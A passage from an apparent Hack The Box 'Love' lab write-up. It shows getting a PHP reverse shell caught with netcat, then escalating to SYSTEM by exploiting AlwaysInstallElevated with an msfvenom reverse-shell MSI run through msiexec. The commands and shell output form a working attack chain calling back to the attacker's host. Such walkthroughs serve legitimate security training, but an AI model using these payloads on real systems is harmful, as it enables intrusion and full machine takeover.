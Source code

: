 ```
Server username: NT AUTHORITY\SYSTEM
```

# Manual Exploitation w/o Metasploit
Like exploitation with Metasploit, we again upload a PHP script, downloaded from [here](https://github.com/ivan-sincek/php-reverse-shell), and navigate to it. Instead of metasploit handler, we start a netcat listener and a user shell is obtained.

```
$ nc -lvp 1337
listening on [any] 1337 ...
connect to [10.10.16.173] from staging.love.htb [10.10.10.239] 56581
SOCKET: Shell has connected! PID: 648
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\omrs\images>whoami
love\phoebe
```
## **Privilege Escalation**
As .NET is installed on the system, we can run WinPEAS to determine possible escalation vectors. And, like metasploit, it identifies that the AlwaysInstallElevated registry key is enabled. This allows us to install .msi files with SYSTEM privilege.
![AIE](./winpeas-always-install-elevated.png "AIE")

### Generate payload
```
$ msfvenom --payload windows/x64/shell_reverse_tcp LHOST=10.10.16.173 LPORT=1337 --format msi --out exploit.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: exploit.msi
```
### Exploitation
Once we copy the payload to the target system using SMB, we trigger it as below and wait for the connection to be received by the netcat listener.
```
C:\xampp\htdocs\omrs\images>copy \\10.10.16.173\share\exploit.msi
        1 file(s) copied.

C:\xampp\htdocs\omrs\images>msiexec /quiet /qn /i exploit.msi
```
Finally, SYSTEM shell is received.
```
$ nc -lvp 1337
listening on [any] 1337 ...
connect to [10.10.16.173] from staging.love.htb [10.10.10.239] 57177
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system
```